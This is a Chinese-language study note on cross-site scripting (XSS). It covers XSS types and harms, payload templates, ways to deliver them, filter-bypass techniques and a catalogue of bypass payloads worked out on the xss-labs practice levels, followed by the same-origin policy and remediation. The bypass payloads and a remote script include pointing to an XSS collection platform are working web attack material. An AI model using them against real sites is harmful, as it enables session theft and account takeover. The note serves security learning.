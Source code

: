 ## XSS的概念

CSS（Cross Site Scripting）--->>>XSS（跨站脚本攻击）

目的：让受害者js客户端运行攻击者编写的恶意js脚本。

目标：前端脚本解析引擎，比如浏览器的javascript解析引擎。

攻击的架构：B/S架构（browser<-->(http)server），少部分情况CS架构。

## XSS的危害

XSS能够产生的危害依赖于浏览器客户端脚本解析引擎的能力。

* 技术上

  窃取凭证（cookie）

  篡改DOM（篡改页面布局及内容）

  嵌入恶意的脚本代码

  发起恶意请求（Ajax）

  键盘记录

  窃取用户浏览历史

  获取客户端ip

  获取外网ip

  实现端口扫描

  获取剪贴板记录

  破解CSRF token限制

* 社会影响上

  无账号密码的情况下非法登录网站

  网络钓鱼

  网页蠕虫

  网页篡改

## XSS漏洞原理

前端用户提交的脚本代码被其他用户浏览器执行产生预期外的执行后果。（让自己提交的前端脚本代码被别人运行）。

找输入输出点   构造payload   尝试xss   如果报错   查看网页源码

html实体字符转义只有在标签属性内部才会被解析成有效的js代码,如果是被当做标签的内容,则只会解析成单纯的字符或字符串

## js执行模板

```html
<script>alert(1)</script>			//直接嵌入script
<script src=https://xsspt.com/></script>		//远程嵌入script
<input name=keyword value="" onmousemove="alert(1)">	//通过事件传入script字符串
<a hreF=javascript:alert(1)>xxx</a>  //超链接形式
或者<a href=javascr&#105;pt:alert(1)>xxxx</a>//html实体转义

<svg onload=alert(1)>
<svg><script>alert&#40;1)</script></svg>

<textarea>payload</textarea>    payload=xxx</textarea><script>alert(1)</script>
```



## XSS投放方式

1. 发链接给受害者。
2. 发文件给受害者。构造一个html文件,包含一个隐藏表单,表单中内置xss payload,编写js代码让表单自动提交(submit.click()) 

## XSS分类

- 反射型:一次性XSS,需要和服务器交互
- 存储型:持久性XSS,存在数据库中,需要与服务器交互
- DOM型:一次性XSS,不与服务器交互

## XSS绕过

1. 大小写绕过
2. 双写绕过
3. 换行绕过
4. `替换引号和括号绕过
5. 生僻元素绕过:<svg>
6. 注释绕过:`//   <!-- -->     --!>`
7. 拉丁字母绕过,常用网站:https://unicode-table.com/cn/blocks/latin-extended-a/
8. img标签不写右尖括号
9. 提前嵌入反斜杠绕过
10. 编码绕过:html实体化编码,js内置函数:String.fromCharCode()编码,url编码,base64编码绕过

## 绕过总结

```javascript
对于一个输入点,可以直接尝试输入	xxx"><scRipt>alert('onblur=alert")</scRipt> 	来测试该输入点对大小写和script标签事件和引号、尖括号、正斜杠的的过滤情况

如果输入点对输入的数据没有任何过滤,可直接采用闭合value,增加事件的方式触发XSS==》 	 x"onmousemove="alert(1)"

如果双引号被替换成html实体编码,可以尝试使用单引号,也许单引号没有被过滤

如果尖括号被过滤,引号没有被过滤,可以尝试给原有的标签添加事件来触发xss

如果输入点过滤了script标签,过滤了各种事件,可以尝试闭合输入框,添加一个超链接,以超链接的形式触发XSS ==>	xxx"><a href="javascript:alert(1)">asd</a>

如果script等关键字眼被过滤掉了,可以尝试大小写绕过,双写绕过,编码绕过等 ==>		"><scrscRiptipt>alert(1)</scrscRiptipt>

在页面上看不到输入点的时候,可以翻看网页源码,有可能有开发人员开发的时候遗留的或者业务需要而把type设置成hidden的输入点,如果是GET请求方法的可以直接在地址栏后面跟上变量名尝试输入点是否有效比如：http://192.168.96.135/xss-labs/level10.php?keyword=well%20done!&t_sort=1"type=text    //地址栏还可以输入type=text将隐藏框显示出来，但是一定要注意先将value闭合&t_sort=1"type=text

有些网页会将http请求头里的内容一并提交到后端，可以使用modheader插件构造header里的payload

如果输入点过滤了括号导致无法执行方法,可以使用反引号``代替括号()  ==>		<script>alert`1`</script>

如果输入点在注释符内:<!--   注释内容  -->  ;并且过滤了闭合符-->,可以使用--!>闭合注释  编写payload

如果前端是通过replace(/auto|on.*=|>/ig, '_')这种形式过滤事件和闭合符,过滤事件的时候,只能过滤到onmousemove=    如果中间多了换行符,就可能匹配不到,但是
onmousemove
=;这种情况在浏览器中会被解析成onmousemove= 一样的效果,但是关键字不能换行,关键字被换行符分隔后就会失效

如果遇到输入点在标签对中间,且任何完整的标签都被过滤的情况,可以尝试用单标签,且不闭合<img src=xx onerror="alert(1)"   浏览器会帮我们自动补全

如果标签被过滤,可以尝试将标签的右尖括号放到下一行,也许多了换行符就不在正则范围内,但是浏览器正常解析

如果输出点在标签的src属性中,并且过滤要求填写正确的url,可以尝试在填入正确的url后再构造payload。比如https://www.segmentfault.comx"onerror="alert(1)

JS语句是严格区分大小写的,如果提交的payload被全部替换成大写,就会导致payload失效,此时可以使用编码的方式绕过,比如:<a href="javascript:&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">点我有奖</a>

-->  可以在script标签中当成单行注释使用!

如果输入点或者输入点使用了这种过滤方式,replace(/<([a-zA-Z])/g, '<_$1'),并且调用了toLowerCase()或者toLowerCase()之类的方法,可以尝试使用拉丁文去绕过正则,然后后面的函数会将拉丁文转成英文,拉丁字符参考网站:https://unicode-table.com/cn/blocks/latin-extended-a/



replace(/-->/g, '😂')   如果XSS输入或输出点被注释,且注释符被正则替换,可以使用  --!>  去结尾,绕过这种正则

```

## 浏览器同源安全策略

### 同源的概念

A网页设置的cookie,B网页不能读取,除非这两个网页同源

判断同源的根据:协议,域名,端口都一致(可以是任意路径)

#### 同源的反义词:跨域

植入xss代码后,可以将cookie发送到xss平台的原因:xss被引入到当前页面后,就相当于和当前页面是同源页面

### http-only

一个服务器下发给客户端的http响应头的字段内容

### 安全策略下的通信

### http-only属性开启的情况下

浏览器仍然可以自动带上cookie访问当前页面网站

一般默认情况下:当页面中的js代码去访问其他网站是,不会自动带上cookie访问非同源网站,cookie就无法传递

### 非同源的情况下

1. cookie、localStorage和Index DB无法读取
2. DOM无法获得
3. AJAX请求不能发送

#### 具体的应用

​	网站js不能读取非同源网站的cookie，不能操作其他网站的DOM

不受跨域限制：

​	提交表单不受同源策略的限制，如网站js能够读取cookie并传给其他服务器（http-only未开启的情况下）

​	从跨域的网站上读取`<img>;<iframe>;<link>`不受限制

## XSS修复思路

1. 对普通字符的输入点输入的内容进行html实体化编码,对输入的href是属性值编写正确的正则进行匹配

2. 对于富文本输入的场景,采用既有的成熟的富文本输入框架

   富文本: 所谓富文本(Rich Text Format, RTF),就是包含各种格式的文字。

   类似:

   ![img](XSS%E7%AC%94%E8%AE%B0.assets/7c4468ee4b6d471ea6d933c8319c9c60.png)